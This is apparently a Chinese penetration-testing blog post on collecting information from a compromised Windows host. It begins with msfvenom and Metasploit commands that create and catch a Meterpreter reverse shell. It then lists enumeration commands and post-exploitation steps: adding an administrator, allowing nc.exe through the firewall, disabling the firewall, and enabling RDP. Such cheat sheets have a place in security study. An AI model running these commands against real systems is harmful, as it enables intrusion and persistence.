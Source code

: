```yaml
---
layout: post
title: Windows 主机信息搜集
subtitle: Windows 主机信息搜集
date: 2025-07-24 16:37
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 内网防护
published: false
---
```

## 1. 前置条件

**反弹 shell**

Kali:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost eth0
exploit
```

## 2. 系统信息搜集

```batch
# 解决乱码
chcp 437 # change english
chcp 65001 # UTF-8 编码
chap 936 # GB2312 编码

# 查询操作系统版本
# /B 匹配行的开头
# /C 区分大小写
systeminfo | findstr /B /C:"OS"
# 主机名
hostname
whoami
echo %username%
query user
# 处理器架构
echo %PROCESSOR_ARCHITECTURE%
# 获取开机时间
net statistics workstation 

net user <user> # 查看指定用户权限
net user <user> /active:yes

net localgroup
net localgroup administrators <user> /add
# 进程
tasklist
wmic service|process [where state='Running'] list brief|full
wmic product get name,version

schtasks /query /fo LIST /V # 查看计划任务
```

**cmd 执行 powershell 命令**

```batch
powershell.exe -command "get-process"
```

## 3. 网络信息搜集

```batch
ipconfig /all
# 当前网络连接
# a: 显示所有连接和监听的端口
# n: 以数字格式显示地址和端口
# o: 显示与每个连接关联的进程 PID
netstat -ano
# 本机共享列表
net share
# 以简洁的方式列出共享的信息
wmic share list brief
#自定义显示字段
wmic share get Description,name,path,status
net use
net session
# arp缓存表
arp -a
# 路由表
route print
netstat -r
```

## 4. 安全信息搜集

```batch
# 查看启动程序信息
wmic startup get command,caption
# 查看计划任务
schtasks /query /fo LIST /V
# 查看补丁列表
systeminfo
```

### 4.1. 防火墙

#### 4.1.1. 查看防火墙配置

```batch
netsh firewall show config
netsh advfirewall firewall show rule name=all dir=in | find <rulename>
netsh advfirewall firewall show rule name=<rulename>
```

#### 4.1.2. 修改防火墙配置

Windows server 2003 及之前版本

```batch
# 允许指定程序通过
netsh firewall all allowprogram c:\nc.exe "allow nc" enable
# 查看防火墙状态
netsh firewall show state
# 关闭防火墙
netsh firewall set opmod disable
```

Windows server 2003 之后版本

```batch
# 允许指定程序
# dir: in|out
netsh advfirewall firewall add rule name="allow nc" dir=in action=allow program="c:\nc.exe"
# 允许指定端口
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
# 关闭防火墙
netsh advfirewall firewall set allprofiles state off
```

### 4.2. 远程桌面

```batch
# 开启远程桌面服务
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# 开启3389端口
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
# or
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

**windows server 2003开启 3389 端口**

```batch
wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
```

**在 Windows server 2008 和 Windows server 2012 中开启 3389 端口**

```batch
wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1
# 
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName ='RDP-Tcp') call setuserauthenticationrequired 1
# 
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

#### 4.2.1. 远程桌面端口设置

查询 Windows 注册表中与远程桌面服务（RDP）相关的端口设置，特别是 RDP 使用的端口号。

```batch
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber
```

![image.png](https://img.ghostliner.top/qAP2U2.png)

修改远程桌面端口

```batch
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber /T REG_DWORD /D 3389 /F 
```

### 4.3. 自动脚本

WMIC（Windows management instrumentation command-line，windows 管理工具命令行）是最有用的 Windows 命令行工具。在默认情况下，任何版本的 Windows XP 的低权限用户不能访问 WMIC， Windows 7 以上版本的低权限用户允许访问 WMIC 并执行相关查询操作

WMIC 脚本的下载地址：[Coding: wmic_info.bat](https://fuzzysecurity.com/scripts/13.html)

执行该脚本后，会将所有结果写入一个 HTML 文件

#### 4.3.1. Wmic 命令

```batch
wmic service [where state='Running'] list brief|full
wmic product get name,version
wmic startup get command,caption # 查看系统启动信息
wmic qfe list brief # 列出所有安装的补丁
```

#### 4.3.2. Netsh 命令

```batch
netsh firewall show config # 查看防火墙配置
netsh advfirewall firewall show rule name=all dir=in | find <rulename>
netsh advfirewall firewall show rule name=<rulename>
```
